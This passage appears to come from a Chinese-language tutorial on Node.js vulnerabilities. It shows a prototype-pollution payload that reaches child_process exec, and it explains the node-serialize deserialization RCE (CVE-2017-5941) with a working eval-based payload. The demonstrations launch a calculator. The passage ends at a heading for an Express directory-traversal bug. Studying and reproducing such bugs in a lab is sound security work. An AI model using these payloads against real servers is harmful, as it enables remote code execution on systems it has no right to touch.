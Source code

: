 ![image-20240927222038209](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240927222038209.png)

我们通过之前的根目录路由，污染Object，使其sourceURL属性为

```js
{"__proto__":{"sourceURL":"\nglobal.process.mainModule.constructor._load('child_process').exec('calc')//"}}
```

记得前面加换行，因为`//# sourceURL= options.sourceURL`前面有注释，尾部也记得加`//`，注释后面的代码，避免出错。由于Function 环境下没有 require 函数，直接使用require(‘child_process’) 会报错

注意！Content-Type需要改为`application/json`



## node-serialize 反序列化RCE(CVE-2017-5941)

漏洞版本：node-serialize模块==0.0.4

```shell
npm install node-serialize@0.0.4
```

漏洞代码位于node_modules\node-serialize\lib\serialize.js中s

直接看到执行代码的地方：

![image-20240928211918215](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240928211918215.png)

读一下这个函数：

* 如果输入为字符串，用JSON.parse转换为对象
* 遍历对象的属性，递归反序列化嵌套的对象
* 如果属性值以`_$$ND_FUNC$$_`开头，则执行eval

![image-20240928214539463](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240928214539463.png)

eval前后用括号包裹，如果obj是外部参数，那我们中间是不是可以套一个自执行函数？

```js
(function () {
  // …
}());
```

如下code就能弹计算器

```js
var node_serialize = require('node-serialize')
obj = {"any":"_$$ND_FUNC$$_function(){require('child_process').exec('calc');}()"}
node_serialize.unserialize(obj)
```



## CVE-2017-14849目录穿越

- Node.js 8.5.0 + Express 3.19.0-3.21.2
- Node.js 8.5.0 + Express 4.11.0-4.15.5

